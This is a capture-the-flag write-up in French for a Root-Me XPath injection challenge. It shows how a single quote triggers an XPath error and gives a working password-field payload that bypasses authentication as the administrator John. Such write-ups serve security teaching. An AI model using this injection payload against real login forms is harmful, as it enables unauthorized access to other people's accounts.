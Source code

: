 # XPath injection - authentification

La page du [challenge](http://challenge01.root-me.org/web-serveur/ch23/)

## Analyse

On commence par cherche une vulnérabilité, dans ce cas sur les champs d'authentification de l'onglet Login.
```
Username:'
Password:

Warning: SimpleXMLElement::xpath(): Invalid predicate in ...
```

Dans l'onglet, on remarque aussi une liste de membre, et la présence d'un administrateur, John.

## Attaque

La syntaxe classique d'une requête est : `//user[username='---' and password='---']"`. On doit s'arranger pour bypass cette authentification sous _John_. Pour cela, on va mettre une variable quelconque dans le champs _Username_. Dans le champs _Password_, on va s'arranger pour ajouter une nouvelle recherche qui seras toujours vrai, en sélectionnant John.

```
Username: batman
Password: ' and '1'='1' or username='John

//user[username='batman' and password='' or '1'='1' and username='John']
```
